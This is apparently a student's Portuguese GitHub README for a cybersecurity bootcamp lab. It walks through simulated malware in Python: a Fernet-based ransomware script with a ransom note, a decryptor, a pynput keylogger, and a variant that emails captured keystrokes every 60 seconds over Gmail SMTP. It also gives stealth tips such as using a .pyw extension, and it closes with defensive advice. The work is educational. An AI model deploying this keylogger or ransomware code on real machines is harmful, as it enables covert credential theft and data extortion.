



# Simulando um Malware de Captura de Dados Simples em Python e Aprendendo a se Proteger - desafio 2
 
Olá, este é o meu repositório para o segundo desafio do bootcamp "Santander - Cibersegurança 2025" da Dio.me! 

<br>

## Entendendo o Problema

Neste laboratório da profa. Isadora Ferrão, o objetivo é entender e documentar o funcionamento de malwares e programas capazes de causar prejuízos a computadores e sistemas, bem como de expor a segurança de dados e informações em geral.


A ideia é que por meio de tais conhecimentos, possam ser discutidos e desenvolvidos métodos de detecção e prevenção, além de meios de mitigação dos potenciais problemas causados. Assim, para que por meio de tais conhecimentos práticos o aluno pudesse compreender o funcionamento de malwares em geral e identificar formas de realizar seu controle e tratamento.


Nesse sentido, então, para completar aquele aprendizado prático citado acima, a profa. Isadora Ferrão desenvolveu, como parte deste treinamento, um estudo prático para a implementação de dois tipos de malwares (Ransomware e Keylogger) usando a linguagem Python, permitindo não apenas a simulação da operação básica de malwares, mas também treinar a preparação e o controle da operação para que esta pudesse ocorrer de forma "100% controlado e com fins educacionais" desejados.  


Assim, estes seriam os objetivos específicos para esse laboratório da profa. Isadora:

- **Ransomware Simulado**: criar arquivos de teste, implementar um script que criptografa e descriptografa, além de gerar mensagem de “resgate”.
- **Keylogger Simulado**: programar que fica em execução em segundo plano no sistema, usado para capturar eventos, como captura de teclas, gravando tudo em um arquivo do tipo .txt. Além disso, pensar em como torná-lo mais furtivo e implementar envio automático por e-mail.
- **Reflexão sobre Defesa**: documentar medidas de prevenção e defesa (antivírus, firewall, sandboxing, conscientização do usuário).


<br>

## Preparando o Ambiente de Teste de Malware com Python

Como visto acima, o uso de ransomware é uma operação que implica na invasão de uma máquina usando um software malicioso que irá busca arquivos de dados na máquina hospedeira e criptografa tudo aquilo que encontra, usando uma chave específica.


Posteriormente, são geradas exigências nas quais a vítima precisa cumprir para receber a chave criptográfica, que é única, capaz de ser usada para descriptografar os dados retornando-os ao seu estado normal para poderem serem lidos.


Assim, neste laboratório, a profa. propôs a criação de um diretório de testes, para separar adequadamente o laboratório de testes do sistema principal. O nome usado para a pasta de teste foi: **malware_test**


E dentro daquela pasta de teste acima, foram criados os seguintes recursos de teste:

1. Arquivos Python para simularem malwares: 
  - **ransonware.py**
  - **descriptografr.py**
2. Pasta de dados contendo dois arquivos para serem buscados e acessados: **text_files**
  - **dados_confidenciais.txt**
  - **senhas.txt**


Iniciando com o conteúdo dos arquivos de dados, temos no primeiro arquivo:

```
Se esses dados forem alcançados por pessoas de fora da empresa,
estamos ENRASCADOS!!!
Ha!!! Ha!! Ha!!! Ha!!!
```


Já o conteúdo do segundo arquivo de dados é um simples simulacro de uma senha qualquer:

```
senha1: DIO_2025@hackers!@#
```


Agora, quanto ao conteúdo do arquivo de malware: **ransonware.py**

```
from cryptography.fernet import Fernet
import os

#1. Gerar um arquivo com a chave de criptografia e salvar
def gerar_chave():
    chave = Fernet.generate_key() 
    with open("chave.key", "wb") as chave_file:
        chave_file.write(chave)

#2. Carregar a chave salva
def carregar_chave():
    return open("chave.key", "rb").read()

#3. Criptografas um unico arquivo
def criptografar_arquivo(arquivo, chave):
    f = Fernet(chave) 
    with open(arquivo, "rb") as file:
        dados = file.read()
    dados_encriptados = f.encrypt(dados) 
    with open(arquivo, "wb") as file:
        file.write(dados_encriptados)

#4. Encontrar arquivos para criptografar
def encontrar_arquivos(diretorio):
    lista = []
    for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
            caminho = os.path.join(raiz, nome)
            if nome != "ransomware.py" and not nome.endswith(".key"):
                lista.append(caminho)
    return lista

#5. Mensagem de resgate
def criar_mensagem_resgate():
    with open("LEIA ISSO.TXT", "w") as f:
        f.write("Seus arquivos foram criptografados!\n")
        f.write("Envia 1 bitcoin para o endero X e envie o comprovante!\n")
        f.write("Depois diss, enviaremos a chave para voce recurar seus dados!\n")

#6. Execucao principal
def main():
    gerar_chave()
    chave = carregar_chave()
    arquivos = encontrar_arquivos("text_files")
    for arquivo in arquivos:
        criptografar_arquivo(arquivo, chave)
    criar_mensagem_resgate()
    print("Ransomware executado! Arquivos criptografados!")

if __name__=="__main__":
    main()
```


Assim, començando a análise do código Python pelas suas bibliotecas importadas, temos ali a chamada de duas bibliotecas:

1. **os**: segundo o site [Python.org](https://docs.python.org/3/library/os.html), o módulo **os** seria uma biblioteca com interfaces gerais para permitir a portabilidade da linguagem Python entre diferentes sistemas operacionais.
 - Especificamente para este projeto, esta biblioteca é o recurso básico para a leitura e escrita de arquivos no sistema.
2. **cryptography**: já com este segundo pacote, deacordo com o site [Pypi.org](https://pypi.org/project/cryptography/), seria provido recursos básicos de criptografia para desenvolvimento com o Python, envolvendo interfaces de criptografia tanto de alto nível, quanto de baixo nível.


Interessante ainda notar como o projeto da biblioteca **cryptography** descreve os seus objetivos:

> "Our goal is for it to be your “cryptographic standard library”. It supports Python 3.8+ and PyPy3 7.3.11+. cryptography includes both high level recipes and low level interfaces to common cryptographic algorithms such as symmetric ciphers, message digests, and key derivation functions."
>  [Pypi.org](https://pypi.org/project/cryptography/)


A primeira função, que repetimos abaixo, cria uma chave de criptografia, esta que à frente será usada pelo próprio código para criptografar os dados da vítima, bem como descriptografar, caso isso viesse a fazer parte do teste também:

```
#1. Gerar um arquivo com a chave de criptografia e salvar
def gerar_chave():
    chave = Fernet.generate_key()   
    with open("chave.key", "wb") as chave_file:
        chave_file.write(chave)
```


Interessante de notar no código acima o uso da biblioteca **cryptography** para a criação da chave criptográfica única, esta que na sequência é gravada em arquivo chamado **chave.key** usando a função interna **open()** do Python com os atributos**w** para gravar e **b** usado para definir o formato binário para os dados.


Ademais, apontamos também o uso da palavra **with** que é, na sintax do Python, chamado de **statement**, responsável pela realização de operações auxiliares para a operação de I/O que se segue, sendo isso importante para grarantir a sanitização da operação em relação ao sistema operacional e todos os seus recursos, como memória, etc.  


A segunda função é ainda mais simples que a primeira, realizando apenas uma operação, que é a de carregar a chave anteriormente criada. Nesse sentido, observamos apenas a diferença no atributo usado com a função interna **open()** para leitura de dados binários: **r**


Esta terceira função é bastante interessante, porque ela recebe como parâmetros um arquivo para ser lido e posteriormente criptografado, bem como a chave específica que vai ser usada nesta operação de critografia:

```
#3. Criptografas um unico arquivo
def criptografar_arquivo(arquivo, chave):
    f = Fernet(chave) 
    with open(arquivo, "rb") as file:
        dados = file.read()
    dados_encriptados = f.encrypt(dados) 
    with open(arquivo, "wb") as file:
        file.write(dados_encriptados)
```


Vemos acima novamente a função **open()**, auxiliada pela palavra **with**, sendo usada para ler o arquivo de dados e depois gravar o arquivo já criptografado, juntamente com o uso da chave criptográfica recebida como parâmetro pela função.


Na sequência, temos a quarta função cujo objetivo é atravessar o sistema de arquivos do sistema hospedeiro para encontrar quaisquer arquivos de dados, ou seja, arquivos que não se encaixem na condição de exclusão definida pelo agente. Isto é, arquivos que não tenham o mesmo nome do arquivo do próprio malware, no caso **ransomware.py**, bem como que não possua a extensão **.key**:

```
#4. Encontrar arquivos para criptografar
def encontrar_arquivos(diretorio):
    lista = []
    for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
            caminho = os.path.join(raiz, nome)
            if nome != "ransomware.py" and not nome.endswith(".key"):
                lista.append(caminho)
    return lista
```


Interessante de notar, como a professora Isadora explica, que se naquela criação da lista de arquivos do sistema, o algoritmo não exclui os próprios arquivos do ransomware e da chave, estes também acabariam sendo criptografados no processo!!!  


A quinta função, segundo as próprias palavras da profa. Isadora, teria um duplo objetivo, sendo o primeiro de apresentar para a vitíma as instruções necessárias para que essa pudesse reaver os seus dados, isso depois de efetuado o pagamento:

```
#5. Mensagem de resgate
def criar_mensagem_resgate():
    with open("LEIA ISSO.TXT", "w") as f:
        f.write("Seus arquivos foram criptografados!\n")
        f.write("Envia 1 bitcoin para o endero X e envie o comprovante!\n")
        f.write("Depois diss, enviaremos a chave para voce recurar seus dados!\n")
```


Contudo, segundo a professora, essa função teria também um segundo objetivo de **engenharia social**, cujo objetivo seria criar na vítima um sendo de urgência ou temor com relação ao ataque sofrido pela vítima e a impossibidade de acesso aos seus próprios dados!!!


Finalmente, temos a função principal, que tem como principal objetivo executar a sequência de passos do ataque:

```
#6. Execucao principal
def main():
    gerar_chave()
    chave = carregar_chave()
    arquivos = encontrar_arquivos("text_files")
    for arquivo in arquivos:
        criptografar_arquivo(arquivo, chave)
    criar_mensagem_resgate()
    print("Ransomware executado! Arquivos criptografados!")
```


Vemos acima que a sequência de execução de ataque é a seguinte:

1. Chamada da função para a criação de uma chave criptográfica.
2. Carregar a chave criptográfica na memória.
3. Iterar as pastas do sistma, para retornar uma lista de arquivos a serem criptografados.
4. Criptografar os arquivos, um a um!
5. Criar a mensagem de resgate.
6. Imprimir na tela a confirmação do resultado do ataque.


Finalmente, temos uma operação própria da arquitetura do Python que é comumente usada para garantir o seu funcionamento modular:

```
if __name__=="__main__":
    main()
```


Assim, no script acima, temos uma condição que só pode ser alcaçada quando o arquivo **ransonware.py** é chamado da forma direta com **$ python ransonware.py**, quando ele recebe do interpretador Python o valor **__main__** que confirmaria a condição descrita ali!


Caso contrário, se o script tivesse sido chamado indiretamente por outro código que, este sim, guardasse consigo a condição **__main__**, o script de ransonware teria apenas o seu nome como módulo, de forma que a clásula acima já não seria verdadeira e a função main() não seria autoexecutada!!! 


<br>

### Considerações Importantes com Relação à Segurança do Ambiente de Teste 

Ao serem analisadas as funções do script **ransomware.py**, fora visto um ponto necessário para o desenvolvimento do teste a contento, que era de se testar a condição para o caso dos arquivos do malware e da chave criptográfica estarem no mesmo grupo de arquivos sendo listados para serem criptografados!


Assim, ali essa possibilidade foi devidamente excluída:

```
if nome != "ransomware.py" and not nome.endswith(".key"):
    lista.append(caminho)
```

Contudo, existem condições ainda mais críticas a serem consideradas na construção do ambiente de testes, que é o de evitar que os testes vazem na direção do próprio sistema! Nesse sentido, temos ali na função, a chamada do método **on.walk("text_files")** passando de forma literal qual é o nome da pasta de teste, de modo que o teste não saísse para além desse contexto. 


Assim, como forma de tornar o uso do método **os.walk()** de forma mais robusta e garantir a saúdes dos testes a serem realizados, seria **IMPORTANTE** considerarmos os seguintes ponto:

1. **Criar um diretório específico de teste**: como fora feito pela professora Isadora Ferrão, porque isso será muito relevante para criar o contexto geral de teste separado do sistema em geral.
2. **Usar apenas caminhos relativos**: assim, como fora feito ali acima, usando **"text_files"** que é o contexto de teste criado, de modo que o método não explorará para além deste contexto.
3. **Nunca usar a referênciao de "Diretório Atual" ou "."**: assim, exceto haja robusta exclusão do que precisa ficar de fora do funcionameto do método **os.walk()** e se tenha **certeza absoluta** disso, isso abriria espaço para um grande risco de desastre!!!


Abaixo, então, o resultado do teste feito com o malware **ransomware.py**:




A seguir, temos um teste simples para fazer a reversão da criptografia aplicada aos dados de volta ao seu estado normal. E, podemos ver no script abaixo, que o código é basicamente a reaplicação do que já foi discutido anteriormente, mudando apenas o método da biblioteca de criptografia usado.


Assim, se antes tínhamos usado **f.encrypt(dados)**, agora usamos **f.decrypt(dados)**:

```
from cryptography.fernet import Fernet
import os


def carregar_chave():
    return open("chave.key", "rb").read()

def descriptografar_arquivo(arquivo, chave):
    f = Fernet(chave)
    with open(arquivo, "rb") as file:
        dados = file.read()
        dados_descriptografados = f.decrypt(dados)
    with open(arquivo, "wb") as file:
        file.write(dados_descriptografados)

def encontrar_arquivos(diretorio):
    lista = []
    for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
            caminho = os.path.join(raiz, nome)
            if nome != "ransomware.py" and not nome.endswith(".key"):
                lista.append(caminho)
    return lista

def main():
    chave = carregar_chave()
    arquivos = encontrar_arquivos("text_files")
    for arquivo in arquivos:
        descriptografar_arquivo(arquivo, chave)
    print("Arquivos restaurados com sucesso!")

if "__main__" == "__main__":
    main()
``` 




<br>

## Preparando o Ambiente do Keylogger com Python

Agora, lembramos que a operação de Keylogger normalmente envolve um programa ou software, do tipo malware, que fica residente na memória de um computados vítima gravando em arquivo todos os eventos definidos no script, o que normalmente envolve gravar as teclas digitadas de um teclado.


Nesse sentido, o código para **Keylogger**:

```
from pynput import keyboard

# Ignorar certos eventos de teclado para melhorar a leitura do arq. de texto gerado ao final
IGNORAR = {
    keyboard.Key.shift,
    keyboard.Key.shift_r,
    keyboard.Key.ctrl_l,
    keyboard.Key.ctrl_r,
    keyboard.Key.alt_l,
    keyboard.Key.alt_r,
    keyboard.Key.caps_lock,
    keyboard.Key.cmd
}

def on_press(key):
    try:
        # se for uma tecla "normal" (letra, número, símbolo)
        with open("log.txt", "a", encoding="utf-8") as f:
            f.write(key.char)
    except AttributeError:
        with open("log.txt", "a", encoding="utf-8") as f:
            if key == keyboard.Key.space:
                f.write(" ")
            elif key == keyboard.Key.enter:
                f.write("\n")
            elif key == keyboard.Key.tab:
                f.write("\t")
            elif key == keyboard.Key.backspace:
                f.write(" ")
            elif key == keyboard.Key.esc:
                f.write(" [ESC] ")
            elif key in IGNORAR:
                pass
            else:
                f.write(f"[{key}] ")

with keyboard.Listener(on_press=on_press) as listener:
        listener.join()
```


Temos acima um script um pouco mais simples que o anterior, onde podemos ver novamente a importação de uma biblioteca Python específica para este propósito.


O código do keylogger em si mesmo começa com a construção de uma lista de teclas a serem ignoradas pelo script na hora de gravar em arquivo as informações, sendo que isso, segundo a professora é uma tática para melhorar a legibilidade do arquivo de log com as informações gravadas.


Na sequência do script, é criada a função única e principal, que define o evento relacionado ao "click" de uma tecla do teclado, sendo que esta função faz uso de um block Try/Except para tratar erros e evitar que o script seja fechado caso um evento não reconhecido venha a acontecer.


Assim, no bloco **Try** é passado a gravação dos caracteres básicos e normais para serem gravados em log, enquanto que no bloco de **Except** são passadas opções para resolver certos eventos, como o de teclas de espaço, tab, incluindo aí a insersão daquela lista criada no começo. Finalmente, observe que a última linha do bloco **Except** marca o tratamento genérico para tudo quanto não teve um tratamento especificado acima!


Ao final do código, temos a chamada de um método de **Listener** da biblioteca **pynput**, que será propriamente a operação que ficará em segundo plano no sistema observando os eventos de teclado, sendo que ainda neste listener indicado, cada vez que tal evento acontece, temos, então, a chamada daquela função principal criada para definir como fazer as gravações no arquivo de log!  




Assim, na imagem acima, podemos ver o resultado prático do trabalho do **Keylogger** que fora capaz de gravar em log os resultados tanto de eventos de teclas pressionadas num programa de edição de texto, quanto das teclas pressionadas no navegador da Internet, no site de pesquisa do Google!


<br>

## Considerações Finais 

Ao final do seu laboratório, a professora Isadora Ferrão aproveita para passar algumas dicas não apenas de como agentes maliciosos poderiam agir para tonar as suas "pegadas" mais difíceis de serem reconhecidas no sistema que é vítima, como também repassa dicas importantes para os técnicos e analistas com a função de tentar evitar a exposição dos sistemas informacionais a todos esses perigos.


Assim, entre os pontos passados para tornar a operação do Keylogger ainda mais difícil de ser detectada, a profa. Isadora diz:

1. Transformar o arquivo keylogger.py, mudando a sua extensão para keylogger.pyw, porque essas extensões seriam trabalhadas por sistemas Windows diretamente em segundo plano, ou seja, sem a necessidade do malware abrir terminais, que de outra forma seriam bastante visíveis aos usuários, facilitando a descoberta da operação do keylogger.
2. Outra forma de melhorar ainda mais a operação furtiva do ponto de vista do agente malicioso, podeira ser o de automatizar o processo de envio das informações gravadas diretamente por email, sem precisar deixar rastro de arquivos de log crescendo dentro do sistema sendo atacado.
 - Assim, como parte dessa nova operação, a profa. Isadora indica a criação de emails de testes separados das contas básicas, para que essas contas possam gerenciar o acesso por parte do malware de keylogger que estará transmitindo informações.


Abaixo temos o código de teste para a versão do keylogger que envia os dados capturados através de emails gerados a cada 60 segundos: 

```
from pynput import keyboard
import smtplib
from email.mime.text import MIMEText
from threading import Timer


log = ""

# CONFIGURAÇÕES DE E-MAIL
EMAIL_ORIGEM = '' # <nome-do-email-de-origem>
EMAIL_DESTINO = '' # <nome-do-email-de-teste>
SENHA_EMAIL = '' # <senha-de-email-de-uso-do-próprio-keylogger>

def enviar_email():
    global log
    if log:
        msg = MIMEText(log)
        msg['SUBJECT'] = "Dados capturados pelo keylogger"
        msg['From'] = EMAIL_ORIGEM
        msg['To'] = EMAIL_DESTINO

        try: # servidor usando a porta 587
            server = smtplib.SMTP("smtp.gmail.com", 587)
            server.starttls()
            server.login(EMAIL_ORIGEM, SENHA_EMAIL)
            server.send_message(msg)
            server.quit()
        except Exception as e:
            print("Erro ao enviar", e)

        log = ""

    # Agendar o envio a cada 60 segundos
    Timer(60, enviar_email).start()

def on_press(key):
    global log
    try:
        log += key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log += " "
        elif key == keyboard.Key.enter:
            log += "\n"
        elif key == keyboard.Key.backspace:
            log += "[<]"
        else:
            pass # Ignorar control, shift, etc.

# Inicia o keylogger e o envio automático
with keyboard.Listener(on_press=on_press) as listener:
    enviar_email()
    listener.join()
```


Além disso, podemos observar no código acima que ele é muito semelhante ao código do keylogger original, mudando apenas que ao invés de utilizar as funções básicas do Python para gravar um arquivo de log no computador atacada, este arquivo de log que depois o atacante precisaria estar recuperando de tempos em tempos.


Agora, é criada uma variável **log**, que é usada por ambas as funções criadas, tanto a **on_press()** que descreve os enventos sendo escutados pelo listener da biblioteca **pynput**, mas que também é usada pela função **enviar_email()**, que cria o corpo do email, chama um servidor básico SMTP, também provido por biblioteca Python, **smtplib**, faz o envio e ao final esvazia a variável log novamente.


Interessante notar, ainda, que essa versão do **keylogger_email.py** também usa uma biblioteca Python, **threading** para criar um timer de 60 para fazer os envios dos emails!


Já com relação a medidas de monitoramento e prevenção, a professora Isadora Ferrão cita:

- Uso de Antivirus e Firewall.
- Monitoramento do comportamento de aplicativos
- Conscientização de usuários (especialmente com relação aos ataques de engenharia social)
- Uso de camadas especiais de defesa para a realização de testes de software para os quais se tem dúvidas da legitimidade, por exemplo com o uso de Máquinas Virtuais.
    - Assim, seja para analisar um vírus ou para observar se uma aplicação conhecida não estaria agindo de forma anormal e suspeita, poderiam ser usadas máquinas virtuais para separar ainda mais o ambiente de análise do sistema principal da máquina.


Assim, com relação às dicas da professora, vemos que tanto um antivirus, quanto um firewall travalham com análise de processos suspeitos, que no caso do código visto acima, poderia ser aquelas chamadas de servidor SMTP a cada 60 segundos, por exemplo!


Já com relação àquela segunda camada de medidas citada pela professora, aplicações automatizadas ou que fazem uso de IA, poderiam observar o comportamento de aplicações e softwares clientes em uma máquina e disparar alertas ou mesmo bloquear comportamentos indesejados, ainda que esses comportamentos pudessem não estar em alguma definição específica de vírus, por exemplo.


Nesse sentido, considerando o código executado pelo malware inicialmente, a aplicação de monitoramento poderia reconhecer o comportamento do malware de acessar arquivos em massa e realizar a sua criptografia, como sendo um comportamento suspeito e, portanto, bloquear tal comportamento, etc.

<br>

## Outros links:

 - [linkedin:] https://www.linkedin.com/in/marcus-vinicius-richa-183104199/
 - [Github:] https://github.com/ahoymarcus/
 - [My Old Web Portfolio:] https://redux-reactjs-personal-portfolio-webpage-version-2.netlify.app/


